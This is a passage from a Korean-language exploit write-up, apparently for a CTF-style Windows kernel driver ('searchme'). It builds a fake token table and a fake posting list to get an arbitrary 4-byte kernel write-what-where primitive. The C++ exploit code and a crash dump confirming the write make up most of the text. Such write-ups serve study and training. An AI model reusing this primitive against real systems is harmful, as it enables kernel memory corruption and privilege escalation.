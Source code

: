 C++ 에서 대충 std::map<string, std::vector<unsigned int>> 꼴로 해당 구조체가 할당된다고 생각하면된다. new( token, value) 쌍으로 인덱스에 추가되고 해당 인덱스를 각 array slots 에 넣는 방식이라고 생각하면된다.

```cpp
PostingList.data[PostingList.size++] = value;
```

우리가 토큰 테이블을 제어가 가능하기 때문에 _ii_posting_list.size 필드의 사이즈는 64비트 이며 fake posting list 의 주소를 알고 있기 때문에 aaw 가 가능하다. 먼저 fake posting list in static memory 에 fake object 를 UNIT64_MAX 만큼 할당한다.

```cpp
namespace globals {
 
_ii_posting_list PostingList = { "fake", 0, 0xFFFFFFFFFFFFFFFFLL };
 
}  // namespace globals
```

그리고 0x0000056c00000558 주소에서 fake token 테이블을 초기화 하도록 한다.

```cpp
BOOLEAN SetupWriteWhatWhere() {
  CONST PVOID kTablePointer = (PVOID)0x0000056c00000558;
  CONST PVOID kTableBase = (PVOID)0x0000056c00000000;
 
  if (VirtualAlloc(kTableBase, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE) == NULL) {
    printf("[-] Unable to allocate fake base.\n");
    return FALSE;
  }
 
  _ii_token_table *TokenTable = (_ii_token_table *)kTablePointer;
  TokenTable->size = 1;
  TokenTable->capacity = 1;
  TokenTable->slots[0] = &globals::PostingList;
 
  return TRUE;
}
```

이후 4바이트 write-what-where 조건을 트리거하는 헬퍼 함수를 만든다.

```cpp
VOID WriteWhatWhere4(ULONG_PTR CorruptedIndex, ULONG_PTR Where, DWORD What) {
  globals::PostingList.size = (Where - (ULONG_PTR)&globals::PostingList.data) / sizeof(DWORD);
 
  AddToIndex(CorruptedIndex, What, "fake");
}
```

테스트를 해보자.

```cpp
WriteWhatWhere4(CorruptedIndex, 0x4141414141414141LL, 0x42424242);
```

```
CONTEXT:  ffff9609683dacb0 -- (.cxr 0xffff9609683dacb0)
rax=00007ff6a90b2930 rbx=ffffe48f8135b5a0 rcx=10503052a60d85fc
rdx=0000000042424242 rsi=ffffe48f82d7d70c rdi=ffff9609683db7d4
rip=fffff8038ccc1905 rsp=ffff9609683db6a0 rbp=ffffe48f82c79ef0
 r8=0000000000000001  r9=0000000000000014 r10=0000000000000000
r11=0000000000000000 r12=ffffe48f82c79ef0 r13=ffffe48f81382ac0
r14=0000000000000002 r15=0000000000000000
iopl=0         nv up ei pl nz na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
searchme+0x1905:
fffff803`8ccc1905 3954881c        cmp     dword ptr [rax+rcx*4+1Ch],edx ds:002b:41414141`4141413c=????????
```
